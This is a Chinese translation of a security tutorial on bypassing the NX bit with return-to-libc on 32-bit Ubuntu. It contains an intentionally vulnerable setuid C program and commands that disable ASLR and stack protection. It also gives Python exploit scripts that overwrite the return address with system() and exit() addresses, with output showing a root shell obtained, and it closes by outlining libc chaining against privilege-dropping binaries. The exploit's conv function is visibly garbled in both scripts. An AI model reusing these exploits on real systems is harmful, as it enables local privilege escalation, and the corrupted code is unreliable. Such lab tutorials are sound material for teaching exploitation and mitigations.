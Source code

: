 # 使用 return-to-libc 绕过 NX 位

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)

前提条件：

经典的基于堆栈的缓冲区溢出

虚拟机安装：Ubuntu 12.04（x86）

在以前的帖子中，我们看到了这个攻击者

+   复制shellcode堆栈并跳转到它！

为了成功利用漏洞代码。为了阻止攻击者的行动，安全研究人员提出了一个名为“NX 位”的漏洞缓解！

**什么是NX 位？**

它是一种利用缓解技术，使某些内存区域不可执行，并使可执行区域不可写。示例：使数据，堆栈和堆段不可执行，而代码段不可写。

在NX 位打开的情况下，我们基于堆栈的缓冲区溢出的经典方法将无法利用此漏洞。因为在经典的方法中，shellcode被复制到堆栈中，返回地址指向shellcode。但是现在由于堆栈不再可执行，我们的漏洞利用失败！但是这种缓解技术并不完全是万无一失的，因此在这篇文章中我们可以看到如何绕过NX 位！

漏洞代码：此代码与以前发布的漏洞代码相同，稍作修改。稍后我会谈谈需要修改的内容。

```c
 //vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```

编译命令：

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

注意：`-z execstack`参数不传递给gcc，因此现在堆栈是非可执行的，可以验证如下所示：

```
$ readelf -l vuln
...
Program Headers:
 Type      Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
 PHDR      0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
 INTERP    0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
 [Requesting program interpreter: /lib/ld-linux.so.2]
 LOAD      0x000000 0x08048000 0x08048000 0x00678 0x00678 R E 0x1000
 LOAD      0x000f14 0x08049f14 0x08049f14 0x00108 0x00118 RW 0x1000
 DYNAMIC   0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW 0x4
 NOTE      0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
 ...
 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
 GNU_RELRO 0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R 0x1
$
```

堆栈段只包含`RW`标志，无`E`标志！

**如何绕过NX位并实现任意代码执行？**

可以使用叫做“return-to-libc”的攻击技术绕过NX 位。这里返回地址被一个特定的libc函数地址覆盖（而不是包含shellcode的堆栈地址）。例如，如果攻击者想要生成一个shell，那么他将使用`system`地址覆盖返回地址，并在堆栈中设置`system`所需的相应参数，以便成功调用它。

在已经反汇编并绘制了漏洞代码的堆栈布局后，让我们编写一个漏洞代码来绕过NX位！

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from cat /proc//maps)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")

system = 0xb7e61060        #0xb7e2000+0x0003f060
exit = 0xb7e54be0          #0xb7e2000+0x00032be0

#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0x804827d     #(obtained from hexdump output of the binary)

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K��}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

宾果，我们得到了root shell！但是在实际应用中，由于root setuid程序会采用最小权限的原则，它并不容易。

什么是最小权限原则？

此技术允许root setuid程序仅在需要时获取root权限。这指的是当需要时，获得root权限，当不需要它们时，它将丢弃获得的root权限。正常做法是root setuid程序之后，用户获取输入之前删除root权限。因此，即使用户输入是恶意的，攻击者也不会得到root shell。例如下面的漏洞代码不允许攻击者获取root shell。

漏洞代码：

```c
//vuln_priv.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

当我们尝试使用下面的漏洞利用代码来利用它时，以上漏洞的代码不会给出root shell。

```py
#exp_priv.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0xb7e61060
exit = 0xb7e54be0

system_arg = 0x804829d

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln_priv", buf])
```

注意：`exp_priv.py`是`exp.py`的略微修改的版本 ！只是`system_arg`变量被调整了！

```
$ python exp_priv.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K川�
$ id
uid=1000(sploitfun) gid=1000(sploitfun) egid=0(root) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ rm /bin/ls
rm: remove write-protected regular file `/bin/ls'? y
rm: cannot remove `/bin/ls': Permission denied
$ exit
$
```

这是隧道的尽头吗？如何利用应用最小权限原则的root setuid程序？

对于漏洞代码（`vuln_priv`），我们的利用代码（`exp_priv.py`）正在调用`system`，随后退出，发现它不足以获取root shell。但是如果我们的利用代码（`exp_priv.py`）被修改为调用以下libc函数（按照列出的顺序）

+   `seteuid(0)`

+   `system(“sh”)`

+   `exit()`

我们将获得root shell。这种技术被称为链接到libc！

